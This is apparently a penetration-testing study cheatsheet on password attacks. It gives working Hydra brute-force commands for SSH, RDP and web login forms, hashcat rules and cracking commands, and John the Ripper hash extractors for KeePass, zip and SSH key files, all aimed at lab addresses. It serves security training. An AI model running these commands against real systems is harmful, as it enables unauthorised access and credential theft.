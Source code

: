 # Password Attacks Cheatsheet

Most common wordlists:

* `/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt`

### Hydra

SSH Bruteforce

```bash
hydra -l george -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -s 2222
ssh://192.168.50.201
```

```bash
sudo hydra -L users.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt ssh://192.168.50.201
```
RDP Bruteforce

```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

HTTP Login Form Bruteforce

```bash
hydra -l user -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

### Hash Cracking

Common rules 

**Rules can be found in `/usr/share/hashcat/rules/`**

```bash
kali@kali:~/passwordattacks$ cat demo1.rule
$1 c
$1
c
```

```bash
kali@kali:~/passwordattacks$ cat demo1.rule
$1 c $!
$1 c
$1 $!
c $!
$!
c
$1
```

```bash
kali@kali:~/passwordattacks$ cat demo3.rule
$1 c $!
$2 c $!
$1 $2 $3 c $!
```

Crack hashes with rules

```bash
hashcat -m 0 crackme.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -r demo3.rule --force
```

JohnTheRipper Hash Extractors

* *Keepass*
  ```bash
  keepass2john Database.kdbx > keepass.hash
  ```
* *Zip archive*
  ```bash
  zip2john archive.zip > archive.hash
  ```
* *SSH Key*
  ```bash
  ssh2john id_rsa > key.hash
  ```
   
KeePass Database Hash Crack

```bash
hashcat -m 13400 keepass.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

SSH Private Key Hash Crack

```bash
hashcat -m 22921 ssh.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

**Add rules to JohnTheRipper**

```bash
kali@kali:~/passwordattacks$ cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
kali@kali:~/passwordattacks$ sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >>
/etc/john/john.conf'
```
